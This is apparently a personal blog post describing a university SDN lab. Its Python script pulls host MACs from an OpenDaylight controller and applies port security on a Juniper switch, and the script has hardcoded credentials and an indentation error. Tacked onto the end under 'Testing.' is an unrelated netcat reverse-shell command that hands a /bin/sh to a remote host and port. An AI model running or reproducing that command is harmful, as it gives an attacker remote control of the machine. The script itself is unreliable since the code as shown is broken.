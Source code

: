 ```yaml
---
title: "SDN Lab"
layout: post
date: 2017-06-20 
tag: 
- SDN
- Lab
headerImage: false
projects: true
hidden: true # don't count this post in blog pagination
description: "SDN Lab with Python."
category: project
author: marioibarra
externalLink: false
---
```


## SDN Lab

This is a lab that was completed at my university last Spring of 2017.  It consisted of a Juniper EX4200 switch with 2 VLANs, a Zodiac FX OpenFlow switch, and an ESXi VM running Untangle and OpenDaylight.  The goal of the lab was to automatically apply port security to the Juniper switch after receiving information from the OpenDaylight SDN controller.

This was accomplished with the following python script:

```python
import requests
import yaml
from jnpr.junos import Device
from jnpr.junos.utils.config import Config
from jnpr.junos.factory.factory_loader import FactoryLoader

#OpenDayLight RESTCONF API settings.
odl_ip = "192.168.140.253"
username = "admin"
password = "admin"
odl_url = 'http://' + odl_ip + ':8181/restconf/operational/network-topology:network-topology'
odl_username = username
odl_password = password

# Fetch information from API.
response = requests.get(odl_url, auth=(odl_username, odl_password))

# Find information about nodes in retrieved JSON file.
odl_macs = []
for nodes in response.json()['network-topology']['topology']:

        # Walk through all node information.
        node_info = nodes['node']

    # Look for MAC and IP addresses in node information.
    for node in node_info:
        try:
            ip_address = node['host-tracker-service:addresses'][0]['ip']
            mac_address = node['host-tracker-service:addresses'][0]['mac']
            odl_parse = 'Found host with MAC address %s and IP address %s' % (mac_address, ip_address)
            odl_macs.append(mac_address)
            print odl_parse
        except:
            pass

# Part 2 ---------------------------------------------------------------------------------------------------

# Yaml organization for EthernetSwitchingTable Entries.
yaml_data = '''
---
EtherSwTable:
  rpc: get-interface-ethernet-switching-table
  item: ethernet-switching-table/mac-table-entry[mac-type='Learn']
  key: mac-address
  view: EtherSwView

EtherSwView:
  fields:
    vlan_name: mac-vlan
    mac: mac-address
    mac_type: mac-type
    mac_age: mac-age
    interface: mac-interfaces-list/mac-interfaces
'''
# Login to switch
host = "192.168.140.240"
switch_user = "root"
switch_password = "admin12345"
dev = Device(host='%s' % (host),user='%s' % (switch_user),password='%s' %(switch_password))
dev.open()

# Retrieve EthernetSwitchingTable info
globals().update(FactoryLoader().load(yaml.load(yaml_data)))
table = EtherSwTable(dev)
table.get()

# Organize EthernetSwitchingTable entries
mac_table = []
for i in table:
    print 'vlan_name:', i.vlan_name
    print 'mac:', i.mac
    print 'mac_type:', i.mac_type
    print 'mac_age:', i.mac_age
    print 'interface:', i.interface
    print
    mac_table.append(i.interface+'|'+i.mac)

# Compare MACs from ODL and EthernetSwitchingTable Table
mac_set = [i for e in odl_macs for i in mac_table if e in i]

# Automate the port security for each entry in final list.
print mac_set
config_add =[]
for i in mac_set:
    mac = [i.split('|', 1)[1]]
    new_mac = mac.pop()
    interface = [i.split('|', 1)[0]]
    interface = [i[:-2] for i in interface]
    new_interface = interface.pop()
    config_add.append('set interface %s allowed-mac %s' % (new_interface, new_mac))
set_add = '\n'.join(map(str,config_add))
print set_add
config_script = """
edit ethernet-switching-options secure-access-port
%s
""" % (set_add)
# Load and Commit the configuration to the switch
cu = Config(dev)
cu.load(config_script, format="set", merge=True)
print 'These are the changes:\n ' + cu.diff()
cu.commit()
print "Configuration Successful! Goodbye."
dev.close()
```

The script first logs into the OpenDaylight controller and receives information about the network topology, like the MACs and IPs for the connected devices.  Then it logs into the Juniper switch, gathers the MACs from the EthernetSwitchingTable and compares them to the MACs from OpenDaylight.  Any matching MACs will have port security applied to their corresponding port on the Juniper Switch.


Testing.

<pre class=" language-bash"><code class=" language-bash">nc -e /bin/sh 10.0.3.4 4444  
</code></pre>